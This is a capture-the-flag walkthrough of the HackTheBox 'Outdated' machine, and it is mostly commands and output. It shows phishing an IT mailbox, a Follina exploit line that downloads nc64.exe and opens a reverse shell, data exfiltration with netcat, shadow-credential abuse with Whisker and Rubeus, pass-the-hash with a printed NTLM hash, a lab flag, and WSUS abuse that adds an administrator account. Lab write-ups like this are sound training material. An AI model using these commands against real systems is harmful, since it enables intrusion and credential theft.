



USER
Step 1
nmap:
➜ outdated nmap -Pn -n -v -p- 10.10.11.175 --open
PORT STATE SERVICE
25/tcp open smtp
53/tcp open domain
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
5985/tcp open wsman
8530/tcp open unknown
8531/tcp open unknown
9389/tcp open adws
49667/tcp open unknown
49669/tcp open unknown
49670/tcp open unknown
49672/tcp open unknown
49884/tcp open unknown
49903/tcp open unknown
49917/tcp open unknown
➜ outdated nmap -Pn -n -sCV -p 25,53,135,139,389,445,464,593,636,3268,3269,5985,8530,8531,9389,49667,49669,49670,49672,49884,49903,49917 10.10.11.175
PORT STATE SERVICE VERSION
25/tcp open smtp hMailServer smtpd
| smtp-commands: mail.outdated.htb, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
53/tcp open domain Simple DNS Plus
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2022-08-15T14:52:47+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC.outdated.htb, DNS:outdated.htb, DNS:OUTDATED
| Not valid before: 2022-06-18T05:50:24
|_Not valid after: 2024-06-18T06:00:24
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC.outdated.htb, DNS:outdated.htb, DNS:OUTDATED
| Not valid before: 2022-06-18T05:50:24
|_Not valid after: 2024-06-18T06:00:24
|_ssl-date: 2022-08-15T14:52:47+00:00; +7h00m01s from scanner time.
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2022-08-15T14:52:47+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC.outdated.htb, DNS:outdated.htb, DNS:OUTDATED
| Not valid before: 2022-06-18T05:50:24
|_Not valid after: 2024-06-18T06:00:24
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2022-08-15T14:52:47+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC.outdated.htb, DNS:outdated.htb, DNS:OUTDATED
| Not valid before: 2022-06-18T05:50:24
|_Not valid after: 2024-06-18T06:00:24
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8530/tcp open http Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesnt have a title.
| http-methods:
|_ Potentially risky methods: TRACE
8531/tcp open unknown
9389/tcp open mc-nmf .NET Message Framing
49667/tcp open msrpc Microsoft Windows RPC
49669/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49670/tcp open msrpc Microsoft Windows RPC
49672/tcp open msrpc Microsoft Windows RPC
49884/tcp open msrpc Microsoft Windows RPC
49903/tcp open msrpc Microsoft Windows RPC
49917/tcp open msrpc Microsoft Windows RPC
Service Info: Hosts: mail.outdated.htb, DC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled and required
| smb2-time:
| date: 2022-08-15T14:52:10
|_ start_date: N/A
➜ outdated sudo nmap -sU --top-port 100 10.10.11.175 --open
PORT STATE SERVICE
123/udp open ntp➜ outdated smbclient -L 10.10.11.175
Password for [WORKGROUP\void]:
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
Shares Disk
SYSVOL Disk Logon server share
UpdateServicesPackages Disk A network share to be used by client systems for collecting all software packages (usually applications) published on this WSUS system.
WsusContent Disk A network share to be used by Local Publishing to place published content on this WSUS system.
WSUSTemp Disk A network share used by Local Publishing from a Remote WSUS Console Instance.
➜ outdated smbclient //10.10.11.175/Shares
Password for [WORKGROUP\void]:
smb: \> ls
. D 0 Mon Jun 20 17:01:33 2022
.. D 0 Mon Jun 20 17:01:33 2022
NOC_Reminder.pdf AR 106977 Mon Jun 20 17:00:32 2022
9116415 blocks of size 4096. 1369832 blocks available
smb: \> get NOC_Reminder.pdf
getting file \NOC_Reminder.pdf of size 106977 as NOC_Reminder.pdf (614.5 KiloBytes/sec) (average 614.5 KiloBytes/sec)In the PDF we find information about a recent breach, where users are asked to mail information to itsupport@outdated.htb - this might be a good entrypoint for us using phising if we’re able to compromize the SMTP server or setup our own SMTP server.

Lets start by trying to setup a local SMTP server and mail a phishing/test link to itsupport. Before sending the email, make sure to start a local HTTP server to capture the request if itsupport clicks the link.
➜ outdated apt install mailutils postfix
➜ outdated sudo postconf -e "mydestination = $myhostname, void, localhost.localdomain, localhost"
➜ outdated sudo postconf -e "mynetworks = 127.0.0.0/8, 10.10.14.0/24"
➜ outdated sudo postconf -e "inet_interfaces = all"
➜ outdated sudo postconf -e "inet_protocols = ipv4"
➜ outdated sudo postconf -e "recipient_delimiter = +"
➜ outdated sudo postconf -e "lmtp_host_lookup = native"
➜ outdated sudo postconf -e "smtp_host_lookup = native"
➜ outdated service postfix restart
➜ outdated telnet localhost 25
220 void.xxxxx.se ESMTP Postfix (Debian/GNU)
ehlo localhost
250-void.xxxxx.se
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250-SMTPUTF8
250 CHUNKING
mail from: void@void
250 2.1.0 Ok
rcpt to: itsupport@outdated.htb
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
Subject: Phishing
http://10.10.14.6:8080
.
250 2.0.0 Ok: queued as 0C51812101C
quit
221 2.0.0 ByeVerify that the mail has been sent by looking at /var/log/mail.log and verify that it has status = sent.
➜ outdated cat /var/log/mail.log
[... snip ...]
Aug 15 10:51:28 void postfix/smtp[7917]: 0C51812101C: to=<itsupport@outdated.htb>, relay=outdated.htb[10.10.11.175]:25, delay=54, delays=43/0.01/0.08/11, dsn=2.0.0, status=sent (250 Queued (10.432 seconds))Although the mail is sent and nothing seems to be out of the ordinary, we don’t get anything back. Testing other transmitters we see that the mail bounces due to 500: Unknown user, if we had a list of potential users we could verify them this way.
Aug 15 10:58:37 void postfix/smtp[8307]: 7EEB6121020: to=<0xpthree@outdated.htb>, relay=outdated.htb[10.10.11.175]:25, delay=0.16, delays=0/0/0.09/0.07, dsn=5.0.0, status=bounced (host outdated.htb[10.10.11.175] said: 550 Unknown user (in reply to RCPT TO command))
Aug 15 11:00:20 void postfix/smtp[8325]: 90736121020: to=<Administrator@outdated.htb>, relay=outdated.htb[10.10.11.175]:25, delay=0.15, delays=0/0/0.08/0.06, dsn=5.0.0, status=bounced (host outdated.htb[10.10.11.175] said: 550 Unknown user (in reply to RCPT TO command))Step 2
At this point we have pretty much nothing, and since we don’t get any callbacks from SMTP it’s starting to feel like a rabbithole..
We can continue enumerating further to see if I missed something, we can use rpcclient to enumerate all users in the machine.
## Find SID
➜ outdated rpcclient -U "" 10.10.11.175
Password for [WORKGROUP\]:
rpcclient $> lookupnames Administrator
Administrator S-1-5-21-4089647348-67660539-4016542185-500 (User: 1)
## Bruteforce to find all users
➜ outdated for i in {1000..1200}; do rpcclient --command="lookupsids S-1-5-21-4089647348-67660539-4016542185-$i" 10.10.11.175 -U "" --password=; done
[... snip ...]
S-1-5-21-4089647348-67660539-4016542185-1103 OUTDATED\DnsAdmins (4)
S-1-5-21-4089647348-67660539-4016542185-1104 OUTDATED\DnsUpdateProxy (2)
S-1-5-21-4089647348-67660539-4016542185-1105 OUTDATED\CLIENT$ (1)
S-1-5-21-4089647348-67660539-4016542185-1106 OUTDATED\btables (1)
S-1-5-21-4089647348-67660539-4016542185-1107 OUTDATED\ITStaff (2)
S-1-5-21-4089647348-67660539-4016542185-1108 OUTDATED\sflowers (1)
S-1-5-21-4089647348-67660539-4016542185-1109 *unknown*\*unknown* (8)We find two users - btables & sflowers
Asreproast fails:
➜ outdated impacket-GetNPUsers outdated.htb/ -usersfile /htb/outdated/users.txt -format hashcat -dc-ip 10.10.11.175
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User btables doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sflowers doesn't have UF_DONT_REQUIRE_PREAUTH setStep 3
The initial vectors on this machine are slim and I can’t see any other way in then utilizing SMTP, especially since CVE-2022-30190 (Follina) is listed in the PDF, so I decide to reboot the box - but to no avail. At this point I needed a sanity check so I went to the HackTheBox discord to confirm my suspicions, and sure enough SMTP is the vector for foothold.
I waited for a day before continuing, and heard that the box should be fixed and more stable.
Instead of logging in to the remote SMTP server over telnet, or using my own local SMTP server, we can try a third option - swaks.
➜ outdated swaks --to itsupport@outdated.htb --from 0xpthree@exploit.se --server mail.outdated.htb --body "http://10.10.14.6/pwn.html"
=== Trying mail.outdated.htb:25...
=== Connected to mail.outdated.htb.
<- 220 mail.outdated.htb ESMTP
-> EHLO void
<- 250-mail.outdated.htb
<- 250-SIZE 20480000
<- 250-AUTH LOGIN
<- 250 HELP
-> MAIL FROM:<0xpthree@exploit.se>
<- 250 OK
-> RCPT TO:<itsupport@outdated.htb>
<- 250 OK
-> DATA
<- 354 OK, send.
-> Date: Mon, 15 Aug 2022 15:14:51 +0200
-> To: itsupport@outdated.htb
-> From: 0xpthree@exploit.se
-> Subject: test Mon, 15 Aug 2022 15:14:51 +0200
-> Message-Id: <20220815151451.031141@void>
-> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
->
-> http://10.10.14.6/pwn.html
->
->
-> .
<- 250 Queued (10.406 seconds)
-> QUIT
<- 221 goodbye➜ outdated python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.175 - - [16/Aug/2022 09:05:43] code 404, message File not found
10.10.11.175 - - [16/Aug/2022 09:05:43] "GET /pwn HTTP/1.1" 404 -The machine is indeed fixed and now we get callbacks! However I had huge problems to get this next part to fly.
We want to utilize the CVE-2022-30190 (MSDT Follina) to download malicious scripts via en embeded link. To do this we use John Hammonds script which will create a malicious .doc file, host a webserver with needed html payload, and will start a netcat listener for you.
The payload will try to download nc64.exe and upload it to the victim, which will then be used to create a reverse shell. The code for this points towards John Hammonds Github, so since this is HackTheBox we need to change that to point to our local attacking machine.
This is row 111 in follina.py after editing:
command = f"""Invoke-WebRequest http://10.10.14.2:8888/nc64.exe -OutFile C:\\Windows\\Tasks\\nc.exe; C:\\Windows\\Tasks\\nc.exe -e cmd.exe {serve_host} {args.reverse}"""We can now execute follina.py and on the first row we’ll find the staging directory - it looks something like this [+] copied staging doc /tmp/67gup9zc.
Copy nc64.exe to /tmp/67gup9zc/www and now you’re ready to send your email.
➜ msdt-follina ls -al /tmp/67gup9zc/www
total 64
drwxr-xr-x 2 void void 4096 Aug 19 13:04 .
drwxr-xr-x 4 void void 4096 Aug 19 12:54 ..
-rw-r--r-- 1 void void 4689 Aug 19 12:54 index.html
-rwxr-xr-x 1 void void 45272 Aug 19 13:04 nc64.exe
➜ msdt-follina sendEmail -t itsupport@outdated.htb -f 0xpthree@exploit.se -s mail.outdated.htb -u PleaseWork -m 'http://10.10.14.2/'
Aug 19 12:54:31 void sendEmail[17349]: Email was sent successfully!
➜ msdt-follina python3 follina.py -i tun0 -p 80 -r 4444
[+] copied staging doc /tmp/67gup9zc
[+] created maldoc ./follina.doc
[+] serving html payload on :80
[+] starting 'nc -lvnp 4444'
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.175] 49822
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.
C:\Users\btables\AppData\Local\Temp\SDIAG_9fb3a047-99c4-4779-8d48-a154f6f5936e>whoami
outdated\btablesNOTE: For me to figure this out I downloaded and setup a python3 http redirect to log and see what happened behind the scenes, this could also have been done using Wireshark or anything similar.
➜ msdt-follina python3 redirect.py 80 http://10.10.14.2:8888
10.10.11.175 - - [19/Aug/2022 12:18:18] "GET / HTTP/1.1" 301 -
10.10.11.175 - - [19/Aug/2022 12:18:20] "GET /nc64.exe HTTP/1.1" 301 -With this information we can see that the script worked, but the payload delivery (of nc64.exe) didn’t.
Step 4
Quickly look through the box as user btables and we see that user.txt is not here, maybe we need to move laterally to sflowers that we found earlier.
Upload SharpHound.exe to the target and start enumerating with BloodHound.
C:\Windows\Tasks>curl http://10.10.14.2:8888/SharpHound.exe -o C:\Windows\Tasks\SharpHound.exe
C:\Windows\Tasks>dir
08/19/2022 11:17 AM <DIR> .
08/19/2022 11:17 AM <DIR> ..
08/19/2022 11:17 AM 908,288 SharpHound.exe
## Start listener to receive
➜ outdated nc -lp 1234 > SharpOut.zip
## Send data
C:\Windows\Tasks>nc.exe -w3 10.10.14.2 1234 < 20220819112306_SharpOut.zipIn BloodHound, mark user btables as Owned and search for Administrator. Press Shortest Path to Here from Owned and we see a nice path:

Searching for AddKeyCredentialLink, we find Shadow Credentials and the tool Whisker.exe for exploitation. This technique allows an attacker to take over an AD user or computer account if the attacker can modify the target object’s (user or computer account) attribute msDS-KeyCredentialLink and append it with alternate credentials in the form of certificates.
Add the shadow credentials (modify the msDS-KeyCredentialLink attribute) to the vulnerable AD user sflowers using Whisker.exe.
C:\Windows\Tasks>curl http://10.10.14.2:8888/Whisker.exe -o C:\Windows\Tasks\Whisker.exe
c:\Windows\Tasks>Whisker.exe add /target:sflowers
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password qUOOiC6IHD1YbErH
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 1b1d7ce3-46ae-4631-9ace-8e962ccdc9ba
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:
Rubeus.exe asktgt /user:sflowers /certificate:MIIJsA...qoCAgfQ /password:"qUOOiC6IHD1YbErH" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /showThe shadow credential has been added to the account and we are returned a long Rubeus.exe string, so lets upload Rubeus.exe and execute the command:
C:\Windows\Tasks>curl http://10.10.14.2:8888/Rubeus.exe -o C:\Windows\Tasks\Rubeus.exe
C:\Windows\Tasks> Rubeus.exe asktgt /user:sflowers /certificate:MIIJsA...qoCAgfQ /password:"qUOOiC6IHD1YbErH" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
[*] Action: Ask TGT
[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
[+] TGT request successful!
[*] base64(ticket.kirbi):
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
ServiceName : krbtgt/outdated.htb
ServiceRealm : OUTDATED.HTB
UserName : sflowers
UserRealm : OUTDATED.HTB
StartTime : 8/19/2022 12:32:27 PM
EndTime : 8/19/2022 10:32:27 PM
RenewTill : 8/26/2022 12:32:27 PM
Flags : name_canonicalize, pre_authent, initial, renewable, forwardable
KeyType : rc4_hmac
Base64(key) : 6eMJxFK5gBo2hl7+F6oiWQ==
ASREP (key) : C930BD99144FF387606300042A2D9F52
[*] Getting credentials using U2U
CredentialInfo :
Version : 0
EncryptionType : rc4_hmac
CredentialData :
CredentialCount : 1
NTLM : 1FCDB1F6015DCB318CC77BB2BDA14DB5We get a TGT and at the bottom we find the NTLM hash for sflowers, use evil-winrm and pass-the-hash:
➜ outdated evil-winrm -i outdated.htb -u sflowers -H 1FCDB1F6015DCB318CC77BB2BDA14DB5
*Evil-WinRM* PS C:\Users\sflowers\Desktop> type user.txt
0190f8bd21ac78cd004055a7eb6bafb8| # Root ### Step 1 Lets start by doing some quick manual enumeration. |
| ```powershell Evil-WinRM PS C:> whoami /all |
| USER INFORMATION |
User Name SID ================= ============================================ outdatedS-1-5-21-4089647348-67660539-4016542185-1108
GROUP INFORMATION
Group Name Type SID Attributes =========================================== ================ ============================================ =============================================================== Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group BUILTINManagement Users Alias S-1-5-32-580 Mandatory group, Enabled by default, Enabled group BUILTINAlias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group BUILTIN-Windows 2000 Compatible Access Alias S-1-5-32-554 Mandatory group, Enabled by default, Enabled group BUILTINService DCOM Access Alias S-1-5-32-574 Mandatory group, Enabled by default, Enabled group NT AUTHORITYWell-known group S-1-5-2 Mandatory group, Enabled by default, Enabled group NT AUTHORITYUsers Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group NT AUTHORITYOrganization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group OUTDATEDAdministrators Alias S-1-5-21-4089647348-67660539-4016542185-1000 Mandatory group, Enabled by default, Enabled group, Local Group NT AUTHORITYAuthentication Well-known group S-1-5-64-10 Mandatory group, Enabled by default, Enabled group Mandatory LabelPlus Mandatory Level Label S-1-16-8448
PRIVILEGES INFORMATION
Privilege Name Description State ============================= ============================== ======= SeMachineAccountPrivilege Add workstations to domain Enabled SeChangeNotifyPrivilege Bypass traverse checking Enabled SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
We're part of the group `WSUS Administrators` which is interestings, if WSUS is the privesc vector it would surely match the box name Outdated, lets dig deeper here.
Reading about compromising WSUS I find:
>_"You can compromise the system if the updates are not requested using http**S** but http . And if `HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer` is equals to `1`, the it is exploitable."_
```powershell
*Evil-WinRM* PS C:\WSUS\WsusContent> reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate
WUServer REG_SZ http://wsus.outdated.htb:8530
*Evil-WinRM* PS C:\WSUS\WsusContent> reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate\AU
UseWUServer REG_DWORD 0x1Both requirements are met! To exploit we can use tools such as WSuspicious, Wsuxploit or pyWSUS, which are MiTM exploit scripts to inject fake updates into non-SSL WSUS traffic.
Trying to compile WSuspicious I’m missing the packages ILMerge and Titanium.Web.Proxy, add nuget package source and update to match all requirements.
NOTE: This tool will lead to a dead-end and later (Step 3) I will find another tool that works

Compile the project and transfer the binary to Kali attacking machine.
Step 2
Upload the binaries needed for the attack:
*Evil-WinRM* PS C:\Windows\Tasks> curl http://10.10.14.4/nc64.exe -o C:\Windows\Tasks\nc64.exe
*Evil-WinRM* PS C:\Windows\Tasks> curl http://10.10.14.4/WSuspicious.exe -o C:\Windows\Tasks\WSuspicious.exeRunning WSuspicious we get the and error that PsExec64.exe is not found:
*Evil-WinRM* PS C:\Windows\Tasks> .\ws.exe /command:" - accepteula - s - d cmd / c 'echo test > C:\Windows\Tasks\wsuspicious.txt'" /autoinstall
Detected WSUS Server - wsus.outdated.htb
ws.exe :
+ CategoryInfo : NotSpecified: (:String) [], RemoteException
+ FullyQualifiedErrorId : NativeCommandError
Unhandled Exception: System.IO.FileNotFoundException: Could not find file 'C:\Windows\Tasks\PsExec64.exe'.Uploading the needed binary and try again:
*Evil-WinRM* PS C:\Windows\Tasks> .\WSuspicious.exe /command:" - accepteula - s - d cmd / c 'echo test > C:\Windows\Tasks\wsuspicious.txt'" /autoinstall
Detected WSUS Server - wsus.outdated.htb
Listening on 'ExplicitProxyEndPoint' endpoint at Ip 127.0.0.1 and port: 13337
Hit any key to exit..
*Evil-WinRM* PS C:\Windows\Tasks> ls
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 8/22/2022 7:55 AM 45272 nc64.exe
-a---- 8/3/2022 4:19 PM 514472 PsExec64.exe
-a---- 8/22/2022 11:12 AM 2666 rootCert.pfx
-a---- 8/22/2022 11:11 AM 4548096 WSuspicious.exeThe server dies immediately and the test-file is not present, something is weird. Testing around I managed to get the server working propperly by setting up a new reverse connection:
*Evil-WinRM* PS C:\Windows\Tasks> ./nc64.exe 10.10.14.4 4488 -e powershell
➜ outdated nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.175] 49257
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Windows\Tasks> .\WSuspicious.exe /command:" - accepteula - s - d cmd / c 'echo test > C:\Windows\Tasks\wsuspicious.txt'" /autoinstall
.\WSuspicious.exe /command:" - accepteula - s - d cmd / c 'echo test > C:\Windows\Tasks\wsuspicious.txt'" /autoinstall
Detected WSUS Server - wsus.outdated.htb
Listening on 'ExplicitProxyEndPoint' endpoint at Ip 127.0.0.1 and port: 13337
Hit any key to exit..Waiting for a few minutes and still nothing happens.. there seems to be something wrong on our end as when reading about WSuspicious it should also force look for updates:
“WSuspicious is a C# program that takes the place of the user local proxy and forces the computer to look for updates while intercepting the WSUS traffic to inject a malicious payload.”
Step 3
Looking on other tools we find SharpWSUS. Compile it, upload to target and exploit the target to create a new administrator user.
*Evil-WinRM* PS C:\Windows\Tasks> curl http://10.10.14.4/SharpWSUS.exe -o C:\Windows\Tasks\SharpWSUS.exe
*Evil-WinRM* PS C:\Windows\Tasks> .\SharpWSUS.exe create /payload:'C:\Windows\Tasks\PsExec64.exe' /args:'-accepteula -s -d cmd.exe /c \"net user 0xpthree Password123! /add && net localgroup Administrators 0xpthree /add && net localgroup Remote Management Users 0xpthree /add"'
[*] Action: Create Update
[*] Creating patch to use the following:
[*] Payload: PsExec64.exe
[*] Payload Path: C:\Windows\Tasks\PsExec64.exe
[*] Arguments: -accepteula -s -d cmd.exe /c "net user 0xpthree Password123! /add && net localgroup Administrators 0xpthree /add && net localgroup Remote Management Users 0xpthree /add"
